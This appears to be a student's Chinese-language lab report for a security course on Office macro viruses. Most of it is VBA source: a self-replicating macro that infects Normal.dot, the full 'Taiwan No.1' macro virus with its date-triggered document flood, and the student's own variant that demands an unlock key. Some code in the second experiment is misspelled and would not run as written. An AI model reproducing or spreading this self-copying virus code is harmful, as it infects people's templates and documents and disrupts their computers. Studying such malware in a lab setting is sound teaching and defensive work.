

### 实验要求

脚本攻击是利用网页或者文档中可以动态执行的Javascript、VBscript等脚本语言编写恶意操作的代码，从而实现恶意操作。Office文档的宏病毒、HTML恶意脚本、跨站攻击都属于脚本攻击的范畴。

本次实验将编写并测试简单的Office宏代码，并在云实训平台上进行宏病毒实验。

### 实验一 本地宏病毒

#### 实现代码
```vb
Sub AutoClose()
'
' AutoClose 宏
'
'
MsgBox "张景赫，学号：2006040126", 0, "关闭文档测试"
End Sub
```

#### 实现效果
<div align="center">


图1 关闭word时弹出窗体
</div>

### 实验二 宏病毒自我复制功能

<!-- ##### “台湾一号”宏病毒代码 -->

#### 实现代码
```vb
'Micro-Virus
Sub Document_Open()
On Error Resume Next
Application.DisplayStatusBar = False
Opitons.SaveNormaPrompt = False
Ourcode = ThisDocument.VBProject.VBComponents(1).CodeModule.Lines(1, 100)
Set host = NormalTemplate.VBProject.VBComponents(1).CodeModule
If ThisDocument = NormalTemplate Then
    Set host = ActiveDocument.VBProject.VBComponents(1).CodeModule
End If
With host
   If .Lines(1, 1) <> "'Micro-Virus" Then
        .DeleteLine 1, .CountOflines
        .InsertLines 1, Ourcode
               .ReplaceLine2 , "SubDocument_Close()"
               If ThisDocument = nomaltemplate Then
                     .replaceline 2, "Sub Document_Open()"
               ActiveDocument.SaveAs ActiveDocument.FullName
        End If
    End If
End With
MsgBox "中毒了"
End Sub
```

#### 实现效果
<div align="center">


图2 运行程序时弹出窗体
</div>


### 实验三 “台湾一号”宏病毒代码

#### 实现代码
```vb
'moonlight
Dim nm(4)
Sub Document_Open()
'DisableInput 1
Set ourcodemodule = ThisDocument.VBProject.VBComponents(1).CodeModule
Set host = NormalTemplate.VBProject.VBComponents(1).CodeModule
If ThisDocument = NormalTemplate Then
    Set host = ActiveDocument.VBProject.VBComponents(1).CodeModule
End If
With host
If .Lines(1, 1) <> "'moonlight" Then
    .DeleteLines 1, .CountOfLines
.InsertLines 1, ourcodemodule.Lines(1, 100)
.ReplaceLine 3, "Sub Document_Close()"
    If ThisDocument = NormalTemplate Then
        .ReplaceLine 3, "Sub Document_Open()"
        ActiveDocument.SaveAs ActiveDocument.FullName
    End If
End If
End With
Count = 0
If Day(Now()) = 29 Then
try:
        On Error GoTo try
        test = -1
        con = 1
        tog$ = ""
        i = 0
        While test = -1
            For i = 0 To 4
                nm(i) = Int(Rnd() * 10)
                con = con * nm(i)
                If i = 4 Then
                    tog$ = tog$ + Str$(nm(4)) + "=?"
                    GoTo beg
                End If
                tog$ = tog$ + Str$(nm(i)) + "*"
            Next i
beg:
        Beep
        ans$ = InputBox$("今天是" + Date$ + ",跟你玩一个心算游戏" + Chr$(13) + "若你答错，只好接受震撼教育......" + Chr$(13) + tog$, "台湾NO.1 Macro Virus")
        If RTrim$(LTrim$(ans$)) = LTrim$(Str$(con)) Then
            Documents.Add
            Selection.Paragraphs.Alignment = wdAlignParagraphCenter
            Beep
            With Selection.Font
                .Name = "细明体"
                .Size = 16
                .Bold = 1
                .Underline = 1
            End With
            Selection.InsertAfter Text:="何谓宏病毒"
            Selection.InsertParagraphAfter
            Beep
            Selection.InsertAfter Text:="答案："
            Selection.Font.Italic = 1
            Selection.InsertAfter Text:="我就是......"
            Selection.InsertParagraphAfter
            Selection.InsertParagraphAfter
            Selection.Font.Italic = 0
            Beep
            Selection.InsertAfter Text:="如何预防宏病毒"
            Selection.InsertParagraphAfter
            Beep
            Selection.InsertAfter Text:="答案："
            Selection.Font.Italic = 1
            Selection.InsertAfter Text:="不要看我......"
            GoTo out
            Else
                Count = Count + 1
                For j = 1 To 20
                    Beep
                    Documents.Add
                Next j
            Selection.Paragraphs.Alignment = wdAlignParagraphCenter
            Selection.InsertAfter Text:="宏病毒"
            If Count = 2 Then GoTo out
            GoTo try
        End If
Wend
End If
out:
End Sub
```

#### 实现效果
<div align="center">


图3 实现宏复制到 `Normal.dot`
</div>

<div align="center">


图4 日期调整到29日 关闭 `word` 文件时自动运行宏代码
</div>

#### 编写自己名称的宏病毒
> 参考1 https://blog.csdn.net/qq_38474570/article/details/88382677\
> 参考2 https://blog.csdn.net/qq_38474570/article/details/88382677
```vb
' zjh
Dim nm(4)
Sub Document_Open() 'Sub指过程开始
' 提取默认模板内容对象
Set ourcodemodule = ThisDocument.VBProject.VBComponents(2).CodeModule
' 提取默认模板内容对象
Set host = NormalTemplate.VBProject.VBComponents(2).CodeModule
' 若本文件为默认模板 则提取模板内容对象
If ThisDocument = NormalTemplate Then
    Set host = ActiveDocument.VBProject.VBComponents(2).CodeModule
End If
With host
' 当首行不为‘zjh’时 删除所有内容 写入默认文档的所有内容
If .Lines(1, 1) <> "' zjh" Then
    .DeleteLines 1, .CountOfLines
.InsertLines 1, ourcodemodule.Lines(1, 100)
' 第三行替换为 Document_Close() 关闭文档时触发内容
.ReplaceLine 3, "Sub Document_Close()"
    ' 若文档为默认模板，第三行替换为 Sub Document_Open()
    If ThisDocument = NormalTemplate Then
        .ReplaceLine 3, "Sub Document_Open()"
        ' 保存文件
        ActiveDocument.SaveAs ActiveDocument.FullName
    End If
End If
End With
Count = 0
If Day(Now()) = 8 Then
try:
        On Error GoTo try
beg:
        Beep
        ans$ = InputBox$("你的电脑已被张景赫的宏病毒感染，请找他要密钥以解锁文档")
        If RTrim$(LTrim$(ans$)) = "0000" Then
            GoTo out
            Else
                Count = Count + 1
                For j = 1 To 2
                    Beep
                    Documents.Add
                Next j
                GoTo beg
                ' GoTo try
        End If
End If
out:
End Sub

```
#### 实现效果
<div align="center">


图43 实现宏病毒并实现复制到 `Normal.dot`
</div>
